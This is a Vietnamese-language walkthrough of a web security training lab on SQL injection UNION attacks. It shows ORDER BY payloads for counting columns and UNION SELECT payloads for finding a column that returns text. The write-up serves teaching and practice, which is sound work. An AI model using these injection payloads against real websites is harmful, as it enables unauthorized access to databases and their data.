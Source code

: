 # SQL injection UNION attack, finding a column containing text

Bài lab sẽ cung cấp một giá trị ngẫu nhiên mà bạn cần để xuất hiện trong kết quả truy vấn. Để giải quyết vấn đề của bài lab này, hãy thực hiện một cuộc tấn công SQL injection UNION để trả về một hàng bổ sung chứa giá trị được cung cấp.

Ta kiểm tra xem trong bảng của database có bao nhiêu cột bằng cách dùng lần lượt các payload sau:
- `filter?category=' ORDER BY 1--`
- `filter?category=' ORDER BY 2--`
- `filter?category=' ORDER BY 3--`

![](https://cdn.discordapp.com/attachments/1124588087931043891/1134106299240554506/image.png)

- `filter?category=' ORDER BY 4--`( Tới đây thì sever error, vậy là chỉ có 3 cột trong bảng của database)

![](https://cdn.discordapp.com/attachments/1124588087931043891/1134106642024239195/image.png)

`Make the database retrieve the string: 'uETlNV'` Ta lần lượt kiểm tra từng cột xem cột đó có chứa dữ liệu `'uETlNV'` hay không bằng cách lần lượt dùng tới `UNION SELECT`:

- `' UNION SELECT 'uETlNV' ,NULL,NULL--`

![](https://cdn.discordapp.com/attachments/1124588087931043891/1134108602299322459/image.png)

Vậy là ở cột 1 không có thứ mà ta cần tìm, tiếp theo ta tìm ở cột 2 xem sao
- `' UNION SELECT NULL, 'uETlNV' ,NULL--`

![](https://cdn.discordapp.com/attachments/1124588087931043891/1134109200742625313/image.png)

Vậy là dữ liệu ta cần tìm nằm ở cột 2 của bảng trong database.




